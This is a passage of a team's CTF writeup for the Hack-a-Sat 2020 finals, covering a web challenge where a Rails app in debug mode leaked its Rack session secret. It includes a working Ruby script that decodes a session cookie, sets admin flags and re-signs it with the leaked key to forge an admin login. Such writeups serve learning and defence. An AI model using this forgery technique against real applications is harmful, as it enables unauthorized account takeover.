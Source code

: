 ```yaml
---
layout: post
title:  "Hack-a-Sat FInals 2020"
date:   2020-09-08
author: the whole team
tags: [ctf, satellites, space, reversing, protocols]
---
```


# Hack-a-Sat Finals

These are our writeups for the finals of the [Hack-a-Sat 2020](https://ctftime.org/event/1104) CTF, which took place in early August of this year. The competition was very exciting and novel, with a cool physical flat-sat device given to each team and a very interesting COSMOS-based setup to do CTF hacking on. We were thrilled to take part in the event and are looking forward to future iterations. Finalist teams each had to submit writeups for challenges they solved, which we've posted below.

## Challenge 0 (web/pentest)

This challenge involved a simple web app implemented in Ruby, which we had to pwn to get access to the satellite and enable telemetry. Initially, we had little information besides the information for the IP itself. Browsing to the site, we were presented with a simple page, a login, and an “/admin” path which was visible in the source. When you browse to /admin, we got Rails/Rack error info, indicating apparently that the app was in debug mode.

This debug page leaked a secret token which is used by the Rack gem to generate the session cookies. Using this information, we could almost definitely log in as the admin account. We grabbed that secret and then were able to forge our own valid session cookies via some code we adapted from the Rack gem.

```ruby=
require 'rack'
require 'openssl'
require 'cgi'
 
myval = Rack::Session::Cookie::Base64::Marshal.new
session_data = ("BAh7CEkiD3Nlc3Npb25faWQGOgZFVG86HVJhY2s6OlNlc3Npb246"\
"OlNlc3Npb25JZAY6D0BwdWJsaWNfaWRJIkU1ZWViNmU5M2UzNTc0OD"\
"MxMDhjZGUxOTJmNDUyOThiMmM1OGZmODI5Y2I1ZmQwNDRiNmQzMjc3"\
"ZDE0NzM5MGMzBjsARkkiCWNzcmYGOwBGSSIxK2NydGtMak5NU09iU"\
"E95akdYVWJiVGl0SjN5djFFOU5pNGlxaUsycnNwbz0GOwBGSSINdHJ"\
"hY2tpbmcGOwBGewZJIhRIVFRQX1VTRVJfQUdFTlQGOwBUSSItZDc5N"\
"TgyZGVhMDM0MTA0YTM1MmJkOTAzYmU3MGQ5YmM2ODM0YWZhZAY7AEY"\
"=--2c061beaf41b799f21c4fe2bf4539488a0b8bb33")
session_data, _, digest = session_data.rpartition('--')
session_data = myval.decode(session_data)
 
session_data["user_name"] = "admin"
session_data["is_admin"] = true
 
session_data = myval.encode(session_data)
 
session_data + "--#{OpenSSL::HMAC.hexdigest(
                    OpenSSL::Digest::SHA1.new,
                    "bbtZJIIecRdlyIpD49A9VHywZgqwtycAr",
                    session_data)}"
```
